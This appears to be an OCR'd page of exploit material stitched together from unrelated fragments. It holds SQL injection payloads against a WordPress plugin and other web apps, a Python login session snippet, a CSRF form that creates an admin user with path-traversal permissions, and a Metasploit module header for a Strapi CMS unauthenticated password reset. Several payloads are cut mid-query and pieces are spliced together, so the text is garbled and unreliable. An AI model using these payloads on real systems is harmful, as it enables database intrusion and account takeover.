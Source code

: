                     [+] Copy Content Protection and Content Locking - SQL Injection
                    [@] Developed by Ron Jost (Hacker5preme)
---
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=hackedpassword=hacked' or '6681'='6681' AND
(SELECT 1959 FROM (SELECT(SLEEP(3)))PuyC) AND
'sDHP'='sDHP&rememberme=on&submit=Login
---
Type: UNION query
Title: Generic UNION query (NULL) - 6 columns
Payload: email=test@test.com' UNION ALL SELECT
with requests.Session() as s:
    headers = { 'Cookie':'wordpress_test_cookie=WP Cookie check',
             'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1.2 Safari/605.1.15' }

    post_data={ 'log':username, 'pwd':password,
               'wp-submit':'Log In','redirect_to':wp_path,
               'testcookie':'1'
                   } 
    
    s.post(login, headers=headers, data=post_data)
    resp = s.get(wp_path)

    out_file = open("output.txt", "w")
    print(resp.text, file=out_file)
    out_file.close()
    print(color_random[4]+resp.text)
    out = color_random[5]+"\n[+] Output Saved as: output.txt\n"
    print(out)
Type: UNION query
Title: MySQL UNION query (random number) - 1 column
Payload: email=riiVAqjG@https://github.com/kishan0725/Hospital-Management-System'+(select-2730)
Type: UNION query
Title: MySQL UNION query (random number) - 1 column
Payload: username3=CHnDaCTc'+(select-3282) UNION ALL SELECT
<form action="http://127.0.0.1:8080/api/users" method="POST" enctype="text/plain" name="exploit">

  

  <input type="hidden" name='{"what":"user","which":[],"data":{"scope":"../../../../root/","locale":"en","viewMode":"mosaic","singleClick":false,"sorting":{"by":"","asc":false},"perm":{"admin":true,"execute":true,"create":true,"rename":true,"modify":true,"delete":true,"share":true,"download":true},"commands":[],"hideDotfiles":false,"username":"pwned","password":"","rules":[{"allow":true,"path":"../","regex":false,"regexp":{"raw":""}}],"lockPassword":false,"id":0,"password":"pwned"}}' value='test'>

</form>
  'Name'           => "Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)",
  'Description'    => %q{
    This exploit module abuses the mishandling of password reset in JSON for Strapi CMS version 3.0.0-beta.17.4 to change the password of a privileged user.
  },
  'License'        => MSF_LICENSE,
  'Author'         => [ 'WackyH4cker' ],
  'References'     =>
    [
      [ 'URL', 'https://vulners.com/cve/CVE-2019-18818' ]
    ],
  'Platform'       => 'linux',
  'Targets'        => [
    [ 'Strapi 3.0.0-beta-17.4', {} ]
  ],
  'Payload'        => '',